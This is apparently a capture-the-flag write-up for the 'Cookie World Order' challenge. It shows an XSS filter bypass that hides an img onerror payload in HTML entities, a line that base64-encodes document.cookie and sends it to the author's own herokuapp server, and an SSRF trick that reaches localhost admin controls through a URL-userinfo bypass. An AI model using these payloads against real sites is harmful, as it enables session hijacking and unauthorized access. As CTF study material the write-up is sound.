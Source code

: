 # Cookie World Order

## Challenge Description

![Challenge Description](img/description.png)

Upon clicking the provided link we see this page:

![Challenge Page](img/page1.png)

and looking at the link for the challenge it seems pretty clear what we need to do, there is an admin reading the same chat we see, and we must execute an XSS attack in order to get the flag, most likely from their cookies, as that is how the previous XSS challenges were implemented.

So, testing the chat function we can see that we can send messages normally, but trying to include a `<script>` tag will change our message to "HACKER ALERT!".

![Chat](img/chat.png)

So it seems like there is some basic anti-xss filtering in place. So the next thing to do was simply send messages and try and determine where the bounds are with what is filtered and what is not. After trying a few things it was obvious it's actually fairly leniant, `img` tags work fine, but it won't allow the `onload` property. `onerror` however, does work but it won't allow messages with the words "script" or "function" in them.

What it does allow, however, are messages encoded as HTML Entities, regardless of their contents. As a result, we can just write an arbitrary XSS payload, encode the whole thing as HTML Entities, set it to the onerror property, and send away. To test this we can use:

```html
<img src="abc "onerror="alert(1)"/>
```
which, when encoded, looks like:
```html
<img src="abc" onerror="&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;"/>
```
and we see our alert pop up straight away!
![Alert](img/alert.png)

So now we just need a payload to grab the cookies from the targets browser and send them back to us. I have a heroku application set up for circumstances like this, which runs a simple http server which logs everything it receives. As a result, I used the following script:

```javascript
new Image().src="https://<myapp>.herokuapp.com?pagesrc="+btoa(document.cookie)
```

```html
<img src="abc" onerror="&#x6E;&#x65;&#x77;&#x20;&#x49;&#x6D;&#x61;&#x67;&#x65;&#x28;&#x29;&#x2E;&#x73;&#x72;&#x63;&#x3D;&#x22;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3A;&#x2F;&#x2F;&#x3C;&#x6D;&#x79;&#x61;&#x70;&#x70;&#x3E;&#x2E;&#x68;&#x65;&#x72;&#x6F;&#x6B;&#x75;&#x61;&#x70;&#x70;&#x2E;&#x63;&#x6F;&#x6D;&#x3F;&#x70;&#x61;&#x67;&#x65;&#x73;&#x72;&#x63;&#x3D;&#x22;&#x2B;&#x62;&#x74;&#x6F;&#x61;&#x28;&#x64;&#x6F;&#x63;&#x75;&#x6D;&#x65;&#x6E;&#x74;&#x2E;&#x63;&#x6F;&#x6F;&#x6B;&#x69;&#x65;&#x29;"/>
```


which just encodes the page cookies as base 64 and makes a request to my server as an image, the request fails, but we can see the cookies in our logs.

Decode the base 64 string and we get:

```
flag=CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}; auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz
```

Which gets us our flag

# Additional Flag

There does seem to be more to this challenge, and I ended up getting a bit of a hint or I don't think I would have gotten this one all the way, so the auth cookie that we get along with the first flag actually seems to have an impact on the page. When we set this cookie in our own browser we can now see an `admin` link in the top right of the page.

![New Link](img/page2.png)

Which gives us access to an admin control panel with a few new pages.

![Admin](img/admin.png)

Unfortunately for us, both the Users and Livestreams pages are blank and when we try to access the camera controls page, we get a 403 response with the error message:

```
Requests only accepted from 127.0.0.1
```

Which makes things a little trickier. However, if we look back at the original page, we can see the livestream is loaded as follows:

```html
<video loop="" autoplay="" muted="" src="/watch?livestream=http://cwo-xss.web.ctfcompetition.com/livestream/garden-livestream.webm">
```

The `src` attribute there looks an awful lot like it might be vulnerable to Remote (or in this case Local) File Inclusion. So by going to the link we can try something like:
```
https://cwo-xss.web.ctfcompetition.com/watch?livestream=http://127.0.0.1/admin/controls
```

However when we try that we see the following error:

![Error](img/forbidden.png)

However this actually turns out to be easy to resolve, as the parsing to check this isn't done very well, as a result we can set the username in our link to `cwo-xss.web.ctfcompetition.com` and we can fool this check right away.

Final link:

```
https://cwo-xss.web.ctfcompetition.com/watch?livestream=http://cwo-xss.web.ctfcompetition.com@127.0.0.1/admin/controls
```

And there we have it, the second flag is ours.

![flag](img/final.png)
